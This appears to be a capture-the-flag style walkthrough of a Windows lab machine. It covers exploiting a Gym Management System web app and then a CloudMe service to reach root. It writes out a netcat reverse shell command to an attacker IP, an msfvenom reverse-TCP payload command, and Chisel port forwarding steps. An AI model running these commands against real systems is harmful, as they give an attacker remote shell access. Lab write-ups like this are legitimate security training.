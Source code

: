 ```yaml
---
published: true
---
```

<img src="https://i.ibb.co/WtCrJ77/buff.png" alt="buff" border="0">

<h1>Enumeration</h1>
<blockquote>
<p>ِLet`s begain scanning with NMAP</p>
</blockquote>

<img src="https://i.ibb.co/0rj2J7D/Enumeration.png" alt="Enumeration" border="0">
  
<blockquote>
<p>ِTwo ports are open 8080 , 7680</p>
</blockquote>  
  
<img src="https://i.ibb.co/T40QWjW/HTTP-Page.png" alt="HTTP-Page" border="0">
  
<blockquote>
<p>ِAfter opening the webapp at 8080 i found out it`s from ProjectWorld.in</p>
<p>And i searched for the project</p>
<p>https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/</p> 
<p>I searched for public exploit for the project and i found this <a href="https://www.exploit-db.com/exploits/48506">Exploit</a></p>
</blockquote> 
  
<h1>Exploiting</h1>
<p>Python script</p>
<img src="https://i.ibb.co/J3wX1Y0/Authenticated.png" alt="Authenticated" border="0">

<blockquote>
<p>ِWe got in !</p>
</blockquote>

<blockquote>
<p>ِLet`s upload nc.exe</p>
</blockquote>
<img src="https://i.ibb.co/N9286zX/Uploading.png" alt="Uploading" border="0">

<blockquote>
<p>Let`s get our reverse shell</p> 
<p>ِC:\xampp\htdocs\gym\upload> powershell -c ".\nc.exe 10.10.10.10 1234 -e powershell"</p>
</blockquote>

<img src="https://i.ibb.co/cD5Zn57/Shaun.png" alt="Shaun" border="0">
<blockquote>
<p>ِWe got shell as SHAUN ! , Let`s get the user hash.</p>
</blockquote>

<h1>USER Flag !</h1>

<img src="https://i.ibb.co/nmtcnfR/USER.png" alt="USER" border="0">

<h1>Privilege Escalation</h1>
<blockquote>
<p>I uploaded WinPEAS.exe and after i ran it i found a vulnerable app called Cloudme.exe,it`s running on 8888 port </p>
<p>I search for an exploit and found these</p>
</blockquote>
<img src="https://i.ibb.co/JrfGmMk/image-3.png" alt="image-3" border="0">

<blockquote>
<p>ِWe need to use portforwarding to run the exploit, you can use CHISEL or PLINK.</p>
<p>It should be compiled to exe to run on windows i used golang</p>
<p>env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w" </p>
<p>You can compile it by this command</p> 
<p>After compilt it to exe , let`s upload it </p> 
</blockquote>

<img src="https://i.ibb.co/GxG19W1/uploading-chisel.png" alt="uploading-chisel" border="0">


<blockquote>
<p>ِI started the server at 8080 on my machine</p>
</blockquote>

<img src="https://i.ibb.co/8dyHfzN/on-your-linux-server.png" alt="on-your-linux-server" border="0">

<blockquote>
<p>ِWe need to start Chisel on the victim machine to connect</p>
</blockquote>

<img src="https://i.ibb.co/5B6KMN7/Chisel-on-victim.png" alt="Chisel-on-victim" border="0">

<h1>Exploiting Cloudme</h1>
<blockquote>
<p> We need to adjust msfvenom cmd to get a shell to our machine</p> 
<p>So you to copy this and adjust your Ip address to get your shell
"msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python" 
<a href="https://www.exploit-db.com/exploits/48506">Exploit</a></p>
<p>Run your listner on the port you choosed in the payload then run the EXPLOIT ..</p>
</blockquote>

<img src="https://i.ibb.co/1r8Xqc2/Listner.png" alt="Listner" border="0">
<img src="https://i.ibb.co/b374fJZ/Got-in.png" alt="Got-in" border="0">

<h1>ROOT Flag !</h1>
<img src="https://i.ibb.co/By7fdbL/admin-hash.png" alt="admin-hash" border="0">
